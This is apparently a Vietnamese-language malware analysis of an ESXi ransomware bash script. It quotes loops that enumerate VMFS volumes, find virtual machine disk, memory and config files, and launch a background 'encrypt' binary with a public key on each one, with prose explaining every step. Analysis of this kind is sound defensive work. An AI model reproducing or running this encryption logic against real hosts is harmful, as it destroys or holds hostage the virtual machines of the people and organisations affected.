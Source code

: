 ```bash
        size_step=0
        if [[ $(($size_kb/1024)) -gt 128 ]]; then
          size_step=$((($size_kb/1024/100)-1))
        fi
        echo "START ENCRYPT: $file_e SIZE: $size_kb STEP SIZE: $size_step" "\"$file_e\" $size_step 1 $((size_kb*1024))"
        echo $size_step 1 $((size_kb*1024)) > "$file_e.args"
        nohup $CLEAN_DIR/encrypt $CLEAN_DIR/public.pem "$file_e" $size_step 1 $((size_kb*1024)) >/dev/null 2>&1&
      fi
  done
  IFS=$" "
done
```

Phân tích đoạn này nào: 

```bash
for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
```

Vòng lặp đầu tiên sẽ đi qua các cái volume trong folder `/vmfs/volumes/`.

```bash
for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
```

Vòng lặp thứ 2 sẽ tìm các file trong các volume đó với các đuôi sau:
- `.vmdk`
- `.vmx`
- `.vmxf`
- `.vmsd`
- `.vmsn`
- `.vswp`
- `.vmss`
- `.nvram`
- `.vmem`

```bash
if [[ -f "$file_e" ]]; then
    size_kb=$(du -k $file_e | awk '{print $1}')
    if [[ $size_kb -eq 0 ]]; then
        size_kb=1
    fi
    size_step=0
    if [[ $(($size_kb/1024)) -gt 128 ]]; then
        size_step=$((($size_kb/1024/100)-1))
    fi
```

Đoạn này của script sẽ tính kích cỡ của các file tìm được trong vòng lặp thứ 2. Số bước để mã hóa file (số MB để skip) sẽ được suy ra từ kích cỡ của file.
